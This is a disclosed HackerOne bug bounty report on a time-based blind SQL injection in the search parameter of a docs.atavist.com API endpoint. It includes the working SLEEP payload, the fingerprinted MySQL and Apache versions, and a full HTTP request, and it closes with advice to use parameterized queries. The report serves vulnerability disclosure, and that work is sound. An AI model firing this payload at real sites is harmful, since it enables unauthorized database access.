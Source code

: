 # Sql injection on docs.atavist.com

## Report Details
- **Report ID**: 1039315
- **URL**: https://hackerone.com/reports/1039315
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-11-20T02:02:35.261Z
- **Disclosed**: 2020-12-08T09:32:55.407Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
hello dear team 

I have found SQL injection on docs.atavist.com
url:http://docs.atavist.com/reader_api/stories.php?limit=10&offset=20&organization_id=88822&search=0&sort=

parameters: injectable search=0

```
Parameter: search (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: limit=10&offset=20&organization_id=88822&search=0' AND SLEEP(5) AND 'wRIg' LIKE 'wRIg&sort=
```
```
[20:54:30] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.2.34
back-end DBMS: MySQL >= 5.0.12
```


Request
-----------

```
GET /reader_api/stories.php?limit=10&offset=20&organization_id=88822&search=0&sort= HTTP/1.1
Host: docs.atavist.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _fbp=fb.1.1605829485735.1219501220; __stripe_mid=f950034a-6de5-408c-b227-5ef48058f129d296dd; rgisanonymous=true; rguserid=5625868d-bfff-49dc-90ac-0269e5138dc8; rguuid=true
Upgrade-Insecure-Requests: 1


```

F1087069: 43.PNG

the website in scope other report
https://hackerone.com/reports/950881

## Impact

Use parameterized queries when dealing with SQL queries that contains user input. Parameterized queries allows the database to understand which parts of the SQL query should be considered as user input, therefore solving SQL injection.

## Attachments
- 43.PNG
